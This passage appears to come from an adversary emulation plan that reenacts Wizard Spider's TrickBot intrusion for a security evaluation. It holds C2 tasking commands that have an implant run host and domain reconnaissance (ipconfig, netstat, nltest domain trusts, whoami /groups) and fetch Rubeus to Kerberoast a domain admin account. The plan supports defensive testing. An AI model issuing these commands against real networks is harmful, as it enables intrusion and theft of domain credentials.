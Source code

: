 ```bash
# TrickBot obtains the IP address, location, and other relevant network information from the victim’s machine.[1][6][7]

./evalsC2client.py --set-task TrickBot-Implant "ipconfig /all"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "netstat -tan"
```

```bash
# Trickbot gathers domain specfic/client specfic information
./evalsC2client.py --set-task TrickBot-Implant "net config workstation >> discovery.txt"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "nltest /domain_trusts /all_trusts >> discovery.txt"
```

```bash
# TrickBot can identify the groups the user on a compromised host belongs to.[7]

./evalsC2client.py --set-task TrickBot-Implant "whoami /groups >> discovery.txt"
```

### :microscope: Cited Intelligence

* https://www.securityartwork.es/wp-content/uploads/2017/07/Trickbot-report-S2-Grupo.pdf
* https://www.fidelissecurity.com/threatgeek/2016/10/trickbot-we-missed-you-dyre
* https://blog.trendmicro.com/trendlabs-security-intelligence/trickbot-shows-off-new-trick-password-grabber-module/
* https://www.cybereason.com/blog/dropping-anchor-from-a-trickbot-infection-to-the-discovery-of-the-anchor-malware
* https://eclypsium.com/wp-content/uploads/2020/12/TrickBot-Now-Offers-TrickBoot-Persist-Brick-Profit.pdf

## Step 6 - Kerberoast the DC

:microphone: `Voice Track:`

In this step Wizard Spider performs Kerberoasting using a public tool, Rubeus.

Through Kerberoasting, Wizard Spider obtains encrypted credentials for the domain admin, vfleming.

Wizard Spider cracks the credentials offline for use in the next step. 

*Note: offline cracking isn't performed due to time constraints; its also not in scope for the evaluation, so we skip the behavior.*

---

### :biohazard: Procedures

```bash
# Wizard Spider has used Rubeus, MimiKatz Kerberos module, and the Invoke-Kerberoast cmdlet to steal AES hashes.[6][3][2][8]

./evalsC2client.py --set-task TrickBot-Implant "get-file rubeus.exe"
```
